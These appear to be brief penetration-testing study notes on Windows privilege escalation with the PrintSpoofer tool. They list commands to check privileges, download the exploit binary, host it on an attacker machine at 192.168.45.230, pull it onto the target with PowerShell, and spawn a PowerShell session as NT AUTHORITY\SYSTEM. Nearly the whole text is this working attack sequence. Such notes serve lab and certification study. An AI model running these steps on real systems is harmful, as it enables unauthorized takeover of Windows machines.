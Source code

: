 *PrintSpoofer*
	- coerce ```NT AUTHORITY\SYSTEM``` into connecting to a controlled named pipe.
	- variation of the *aprinter bug
	- Example:
		- check privs
			- ```whoami /priv```
		- Download PrintSpoofer
			- ```wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe```
		- Transfer to tgt 
			- ```python3 -m http.server 80```
			- ```iwr -uri http://192.168.45.230/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe```
		- Start PowerShell session in context of ```NT AUTHORITY\SYSTEM``` with PrintSpoofer
			- ```.\PrintSpoofer64.exe -i -c powershell.exe```
				- -c = command
				- -i = interact in current cmd prompt
		- verify
			- ```whoami```
